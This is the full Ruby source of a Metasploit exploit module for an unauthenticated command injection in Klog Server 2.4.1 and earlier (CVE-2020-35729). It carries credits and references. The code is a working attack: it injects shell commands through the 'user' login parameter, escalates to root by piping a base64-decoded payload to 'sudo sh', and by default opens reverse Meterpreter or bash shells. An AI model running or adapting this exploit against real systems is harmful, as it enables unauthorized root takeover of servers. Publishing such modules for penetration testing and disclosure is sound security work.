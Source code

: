     ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote
      Rank = ExcellentRanking

      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::CmdStager
      prepend Msf::Exploit::Remote::AutoCheck

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'Klog Server authenticate.php user Unauthenticated Command Injection',
            'Description' => %q{
              This module exploits an unauthenticated command injection vulnerability
              in Klog Server versions 2.4.1 and prior.

              The `authenticate.php` file uses the `user` HTTP POST parameter in a call
              to the `shell_exec()` PHP function without appropriate input validation,
              allowing arbitrary command execution as the apache user.

              The sudo configuration permits the apache user to execute any command
              as root without providing a password, resulting in privileged command
              execution as root.

              This module has been successfully tested on Klog Server version 2.4.1
              virtual appliance.
            },
            'License' => MSF_LICENSE,
            'Author' =>
            [
              'b3kc4t', # Vulnerability discovery and exploit
              'Metin Yunus Kandemir', # Metasploit module
              'bcoles', # Metasploit module
            ],
            'References' =>
            [
              ['CVE', '2020-35729'],
              ['CWE', '78'],
              ['EDB', '49366'],
              ['EDB', '49474'],
              ['PACKETSTORM', '160798'],
              ['PACKETSTORM', '161123'],
              ['URL', 'https://github.com/mustgundogdu/Research/tree/main/KLOG_SERVER'],
              ['URL', 'https://docs.unsafe-inline.com/0day/klog-server-unauthentication-command-injection']
            ],
            'DefaultOptions' =>
              {
                'SSL' => true,
                'RPORT' => 443
              },
            'Platform' => %w[unix linux],
            'Targets' => [
              [
                'Linux (x86)', {
                  'Arch' => ARCH_X86,
                  'Platform' => 'linux',
                  'DefaultOptions' => {
                    'PAYLOAD' => 'linux/x86/meterpreter/reverse_tcp'
                  }
                }
              ],
              [
                'Linux (x64)', {
                  'Arch' => ARCH_X64,
                  'Platform' => 'linux',
                  'DefaultOptions' => {
                    'PAYLOAD' => 'linux/x64/meterpreter/reverse_tcp'
                  }
                }
              ],
              [
                'Linux (cmd)', {
                  'Arch' => ARCH_CMD,
                  'Platform' => 'unix',
                  'DefaultOptions' => {
                    'PAYLOAD' => 'cmd/unix/reverse_bash'
                  }
                }
              ],
            ],
            'Privileged' => true,
            'DisclosureDate' => '2020-12-27',
            'DefaultTarget' => 0,
            'Notes' =>
              {
                'Stability' => [ CRASH_SAFE ],
                'SideEffects' => [ ARTIFACTS_ON_DISK, IOC_IN_LOGS ],
                'Reliability' => [ REPEATABLE_SESSION ]
              }
          )
        )
        register_options(
          [
            OptString.new('TARGETURI', [true, 'The base path of the Klog Server', '/']),
            OptBool.new('USE_SUDO', [true, 'Execute payload as root using sudo', true])
          ]
        )
      end

      def login(user, pass)
        send_request_cgi({
          'method' => 'POST',
          'uri' => normalize_uri(target_uri.path, 'actions', 'authenticate.php'),
          'vars_post' => {
            'user' => user,
            'pswd' => pass
          }
        })
      end

      def execute_command(cmd, _opts = {})
        user = "#{rand_text_alpha(8..12)}\" & "
        if datastore['USE_SUDO']
          user << "echo #{Rex::Text.encode_base64(cmd)}|base64 -d|sudo sh"
        else
          user << cmd
        end
        user << ' & echo "'

        pass = rand_text_alpha(8..12)
        login(user, pass)
      end

      def check
        sleep = rand(9..11)
        t1 = Time.now.to_i
        res = execute_command("sleep #{sleep}")
        t2 = Time.now.to_i

        unless res
          return CheckCode::Safe('Connection failed')
        end

        unless res.code == 302 && res.headers['location'].to_s.include?('login.php?error')
          return CheckCode::Safe("Unexpected reply (HTTP #{res.code}). Expected redirect (HTTP 302) to login error page.")
        end

        diff = t2 - t1

        if diff < sleep
          return CheckCode::Safe("No response within the expected period of time (#{sleep} seconds).")
        end

        CheckCode::Vulnerable("Response received after #{diff} seconds.")
      end

      def exploit
        if target.arch.first == ARCH_CMD
          execute_command(payload.encoded)
        else
          execute_cmdstager(background: true)
        end
      end
    end